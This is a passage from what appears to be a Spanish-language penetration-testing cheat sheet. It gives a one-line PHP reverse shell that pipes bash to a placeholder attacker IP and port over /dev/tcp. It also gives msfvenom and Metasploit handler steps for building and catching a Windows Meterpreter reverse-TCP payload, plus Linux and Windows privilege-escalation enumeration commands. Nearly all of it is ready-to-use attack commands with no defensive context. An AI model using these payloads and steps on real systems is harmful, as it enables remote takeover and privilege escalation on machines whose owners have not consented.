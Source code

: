 ```bash
</body>
</html>
```

Revershell PHP

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/**ATTACKING IP**/**PORT** 0>&1'");?>
```

#### Revershell Windows

Metasploit shell

```bash
#Parte 1
msfvenom  -p windows/meterpreter/reverse_tcp LHOST=LocalIP LPORT=4444 -f exe -o payload.exe

#Parte 2
msfconsole> use multi/handler
msfconsole>show options
msfconsole>set LHOST=LocalIP
msfconsole>set LPORT=4444
msfconsole>set PAYLOAD windows/meterpreter/reverse_tcp

```

### Escalada de privilegios

View Listen services with port

```bash
ss -tl
```

Sudo

```bash
sudo -l
```

Capabilities

```bash
getcap -r / 2>/dev/null
```

SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
find / -perm -4000 2>/dev/null
```

Windows (Metasploit)

```bash
# Una vez tenemos acceso a la maquina con algún usuario a traves de metasploit, 
# podemos usar el siguiente modulo
meterpreter>backgound
msf6> sessions -l 
1
msf6> use local_exploit_suggester
msf6> set SESSION 1
msf6> run
```
